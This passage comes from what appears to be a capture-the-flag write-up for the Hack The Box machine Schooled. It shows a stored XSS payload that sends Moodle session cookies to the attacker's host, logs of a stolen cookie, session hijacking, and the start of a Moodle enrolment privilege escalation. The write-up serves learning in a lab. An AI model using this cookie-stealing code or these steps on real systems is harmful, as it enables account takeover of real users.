 ```

var fetch_req = new XMLHttpRequest();
fetch_req.open("GET", "http://10.10.14.7/?cookie=" + document.cookie, false);           
fetch_req.send();

```

The next time Schooled requests the script, it immediately makes another request with the cookie:

```
10.10.10.234 - - [05/Apr/2021 14:52:09] "GET /pwn.js HTTP/1.1" 200 -
10.10.10.234 - - [05/Apr/2021 14:52:09] "GET /?cookie=MoodleSession=1d5priq1upigf4u74ej6c9nfvn HTTP/1.1" 200 -

```

In the firefox dev tools, in the Storage section, I’ll replace my `MoodleSession` cookie with the one I just got:

![image-20210401145439543](https://0xdfimages.gitlab.io/img/image-20210401145439543.png)

Now on visiting `http://moodle.schooled.htb/moodle`, I’m logged in as Manuel Phillips:

![image-20210401145519020](https://0xdfimages.gitlab.io/img/image-20210401145519020.png)

### Moodle Access as Lianne

#### Add Manual as Manager

From the initial page, Manuel is a Mathematics Lecturer. There’s not too much to find. There are no messages with information. No obvious places to get RCE or upload anything that could execute.

I turned back to the Moodle Security page, and two issues before the stored XSS, there’s another one that’s interesting, [Course enrolments allowed privilege escalation from teacher role into manager role](https://moodle.org/mod/forum/discuss.php?d=407393#p1644268) (MSA-20-0009, CVE-2021-14321).

[This GitHub page](https://github.com/HoangKien1020/CVE-2020-14321) has some sparse details on the exploit, including a link to a blog that is no longer up, and [this video on Vimeo](https://vimeo.com/441698193) showed the details of how to exploit it. I need to know someone who has the manager role. Back on the teachers page, Lianne Carter was listed as “Manager & English Lecturer”, so I can try her.

I’ll start by going to the Math class, and selecting Participants from the menu on the left. On that page, I’ll click the “Enrol users” button to get a form:

![image-20210401151238759](https://0xdfimages.gitlab.io/img/image-20210401151238759.png)

As I start to enter Lianne, it will autofill:

![image-20210401151313068](https://0xdfimages.gitlab.io/img/image-20210401151313068.png)

I’ll turn on intercept in Burp proxy, and click Enrol users. The resulting GET request has a ton of parameters:

```

GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=CIXNWKLP05&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=25&roletoassign=5&startdate=4&duration=

```
